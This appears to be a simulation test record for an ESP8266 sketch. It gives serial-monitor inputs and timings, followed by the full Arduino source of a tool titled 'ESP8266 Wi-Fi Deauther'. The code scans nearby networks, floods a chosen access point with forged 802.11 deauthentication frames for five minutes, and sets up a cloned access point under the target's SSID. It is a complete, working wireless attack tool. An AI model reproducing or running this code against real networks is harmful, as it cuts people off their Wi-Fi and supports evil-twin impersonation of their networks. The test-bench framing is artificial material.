
A sketch run on a simulated ESP8266 (NodeMCU). Shown: the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench. Random numbers use the default seed unless the sketch sets one.

Above: at 1.2 s.
1.3 s: HTTP request GET /deauth?bssid=1&channel=1&ssid=1 received
At 2.9 s:

4.3 s: HTTP request GET /clone?bssid=1&channel=1&ssid=1 received
At 5.1 s:

5.8 s: HTTP request GET /clone?bssid=120&channel=120&ssid=120 received
At 6.2 s:

7.3 s: HTTP request GET /clone?bssid=1&channel=1&ssid=1 received
At 7.9 s:

8.8 s: HTTP request GET /clone?bssid=120&channel=120&ssid=120 received
At 9.2 s:


Measured:
- after the input at 1.3 s, the serial monitor: prints a new line after 1.0 s (image 1)
- after the input at 4.3 s, the serial monitor: prints a new line at once (image 2)
- after the input at 5.8 s, the serial monitor: prints a new line at once (image 3)
- after the input at 7.3 s, the serial monitor: prints a new line at once (image 4)
- after the input at 8.8 s, the serial monitor: prints a new line at once (image 5)

The sketch:

Flash1.1.ino
```cpp
#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <Ticker.h>
#include <stdlib.h>

ESP8266WebServer server(80);

// Генерация случайного символа (буквы и цифры)
char randomChar() {
  const char charset[] = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
  return charset[random(0, sizeof(charset) - 1)];
}

// Генерация случайного пароля длиной 8 символов
String generateRandomPassword() {
  String pass = "";
  for (int i = 0; i < 8; i++) {
    pass += randomChar();
  }
  return pass;
}


const uint8_t broadcast[6] = {0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF};
uint8_t deauthPacket[26] = {
  0xC0, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
  0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC,
  0x00, 0x00, 0x01, 0x00
};

Ticker deauthTimer;
bool isDeauthRunning = false;
unsigned long deauthStartTime = 0;
const unsigned long deauthDuration = 300000; // 5 минут

String wifiScanResults;

// Функция отправки пакетов
void sendDeauthPacket(const uint8_t *bssid, int channel) {
  wifi_set_channel(channel);
  memcpy(&deauthPacket[10], bssid, 6); // Источник
  memcpy(&deauthPacket[16], bssid, 6); // BSSID
  for (int i = 0; i < 30; i++) {
    wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0);
    delay(1);
  }
}

// Таймер отправки пакетов
void deauthLoop(const uint8_t *bssid, int channel) {
  if (millis() - deauthStartTime > deauthDuration) {
    deauthTimer.detach();
    isDeauthRunning = false;
    Serial.println("Деаутентификация завершена");
  } else {
    sendDeauthPacket(bssid, channel);
    Serial.println("Пакет отправлен");
  }
}

// Создание клонированной точки доступа
void createFakeAP(const String &ssid, int channel, const String &password) {
  WiFi.softAPdisconnect(true);  // отключаем предыдущую AP, если была
  WiFi.softAP(ssid.c_str(), password.c_str());  // WPA2
  wifi_set_channel(channel);
  Serial.println("Создана WPA2-точка доступа: SSID = " + ssid + ", пароль = " + password);
}


// --- Страницы веб-интерфейса ---

// Генерация главной страницы
String buildHtmlPage() {
  String html = "<!DOCTYPE html><html><head><meta charset='UTF-8'><title>ESP-8266</title>";
  html += "<style>body { background-color: #121212; color: white; font-family: Arial; text-align: center; }";
  html += "table { width: 80%; margin: 20px auto; border-collapse: collapse; }";
  html += "th, td { border: 1px solid white; padding: 10px; text-align: center; }";
  html += "button { padding: 10px 20px; font-size: 16px; margin: 10px; background-color: #6200EE; color: white; border: none; cursor: pointer; }";
  html += "button:hover { background-color: #3700B3; }</style></head><body>";
  html += "<h1>ESP8266 Wi-Fi Deauther</h1>";
  html += "<button onclick='scanWifi()'>Сканировать сети</button>";
  html += "<div id='results'></div>";
  html += "<script>";
  html += "function scanWifi() { fetch('/scan').then(response => response.text()).then(data => { document.getElementById('results').innerHTML = data; }); }";
  html += "function deauth(bssid, channel) { fetch(`/deauth?bssid=${bssid}&channel=${channel}`).then(response => response.text()).then(alert); }";
  html += "function cloneAP(ssid, bssid, channel) { fetch(`/clone?ssid=${ssid}&bssid=${bssid}&channel=${channel}`).then(response => response.text()).then(alert); }";
  html += "</script></body></html>";
  return html;
}

// Сканирование сетей
void handleScan() {
  int n = WiFi.scanNetworks();
  wifiScanResults = "<table><tr><th>SSID</th><th>MAC-адрес</th><th>Канал</th><th>Сигнал</th><th>Действия</th></tr>";
  for (int i = 0; i < n; ++i) {
    String bssid = WiFi.BSSIDstr(i);
    int channel = WiFi.channel(i);
    int rssi = WiFi.RSSI(i);
    String ssid = WiFi.SSID(i);
    wifiScanResults += "<tr><td>" + ssid + "</td>";
    wifiScanResults += "<td>" + bssid + "</td>";
    wifiScanResults += "<td>" + String(channel) + "</td>";
    wifiScanResults += "<td>" + String(rssi) + " dBm</td>";
    wifiScanResults += "<td>";
    wifiScanResults += "<button onclick='deauth(\"" + bssid + "\", " + String(channel) + ")'>Deauth</button> ";
    wifiScanResults += "<button onclick='cloneAP(\"" + ssid + "\", \"" + bssid + "\", " + String(channel) + ")'>Clone AP</button>";
    wifiScanResults += "</td></tr>";
  }
  wifiScanResults += "</table>";
  server.send(200, "text/html", wifiScanResults);
}

// Деаутентификация
void handleDeauth() {
  if (server.hasArg("bssid") && server.hasArg("channel")) {
    String bssidStr = server.arg("bssid");
    int channel = server.arg("channel").toInt();

    uint8_t bssid[6];
    sscanf(bssidStr.c_str(), "%hhx:%hhx:%hhx:%hhx:%hhx:%hhx",
           &bssid[0], &bssid[1], &bssid[2], &bssid[3], &bssid[4], &bssid[5]);

    deauthStartTime = millis();
    isDeauthRunning = true;

    deauthTimer.attach(1, [=]() { deauthLoop(bssid, channel); });

    server.send(200, "text/plain", "Деаутентификация началась");
  } else {
    server.send(400, "text/plain", "Ошибка: отсутствуют параметры");
  }
}

// Клонирование точки доступа
void handleCloneAP() {
  if (server.hasArg("ssid") && server.hasArg("bssid") && server.hasArg("channel")) {
    String ssid = server.arg("ssid");
    int channel = server.arg("channel").toInt();

    String password = generateRandomPassword();  // случайный пароль
    createFakeAP(ssid, channel, password);

    String response = "Клонированная WPA2-точка доступа создана:\n";
    response += "SSID: " + ssid + "\n";
    response += "Канал: " + String(channel) + "\n";
    response += "Пароль: " + password + "\n";

    server.send(200, "text/plain", response);
  } else {
    server.send(400, "text/plain", "Ошибка: отсутствуют параметры");
  }
}


// Главная страница
void handleRoot() {
  server.send(200, "text/html", buildHtmlPage());
}

// Настройка
void setup() {
  WiFi.softAP("ESP-WiFi", "11111111");
  server.on("/", handleRoot);
  server.on("/scan", handleScan);
  server.on("/deauth", handleDeauth);
  server.on("/clone", handleCloneAP);
  server.begin();
  Serial.begin(115200);
}

void loop() {
  server.handleClient();
}
```
